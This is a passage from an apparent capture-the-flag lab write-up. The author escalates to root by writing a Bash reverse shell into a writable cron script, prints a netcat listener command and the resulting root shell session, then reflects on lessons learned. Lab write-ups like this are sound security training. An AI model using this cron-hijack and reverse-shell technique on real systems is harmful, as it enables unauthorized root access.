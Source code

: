 As we can see there seems to be some shell we could take advantage of. Checking out that directory also confirms to us the question if we could modify the file

```
boring@kral4-PC:/var/www$ ls -la
total 16
drwxr-xr-x  3 root   root   4096 Jun 15  2020 .
drwxr-xr-x 14 root   root   4096 Jun 13  2020 ..
drwxr-xr-x  4 root   root   4096 Jun 15  2020 html
-rwxr-xr-x  1 boring boring   33 Jun 14  2020 .mysecretcronjob.sh
```

We can write in that shell. Neat. Let's add a Bash reverse shell with nano and then add our netcat listener

<img width="589" height="150" alt="image" src="https://github.com/user-attachments/assets/aba2cb83-0a8b-421c-aa89-4119dc960e36" />

That seemed to have worked


```
root@ip-10-10-188-57:~# nc -lvnp 1337
Listening on 0.0.0.0 1337
Connection received on 10.10.135.198 45062
bash: cannot set terminal process group (2349): Inappropriate ioctl for device
bash: no job control in this shell
root@kral4-PC:/var/www# whoami
whoami
root
root@kral4-PC:/var/www# 
```

Now we only need to cat the root.txt, which we can find in the root directory. *ls -la* reveals the text file to us. With that the challenge is done. 

## Lessons Learned
This was the first time I got to make use of a vulnerable cronjob, so that was exiting. I'm getting the hang of it, when it comes to reverse shells and listeners, but still got confused by steganography, even though I already had a challenge like that before. I needed to understand the difference between steghide and stegcracker. Enumerating with an already hidden directory was also new to me. Nonetheless this was a lot of fun and helped me get acquainted with a lot of encryption tools and strategies in regards to privilege esacalation.
